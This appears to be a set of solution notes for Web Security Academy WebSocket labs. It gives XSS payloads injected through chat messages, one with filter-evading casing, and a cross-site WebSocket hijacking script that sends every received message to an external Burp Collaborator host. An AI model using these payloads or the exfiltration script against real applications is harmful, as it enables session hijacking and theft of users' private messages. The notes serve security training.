 # WebSocket Vulnerabilities

### Manipulating WebSocket messages to exploit vulnerabilities
* Attack Vector
```html
<form id="chatForm" action="wss://ac2c1f411fac5042c0e80df200df001b.web-security-academy.net/chat" encode="true">
```
* Payload
```json
{"message" : "<img src=1 onerror='alert(1)'>"}
```

### Manipulating the WebSocket handshake to exploit vulnerabilities
* Attack Vector
```html
<form id="chatForm" action="wss://ac2c1f411fac5042c0e80df200df001b.web-security-academy.net/chat" encode="true">
```
* Payload
```json
{"message" : "<img src=1 oNeRrOr=alert`1`>"}
```

### Cross-site WebSocket hijacking
* First we need to check whether there is no CSRF token implenented when establishing WebSocket
* Payload
```html
<script>
  var ws = new WebSocket('wss://ac801f771ee6b866c05f4cd400ab0032.web-security-academy.net/chat');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://s1u3ivhsytkn69c7b986lqfuslybm0.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script> 
```

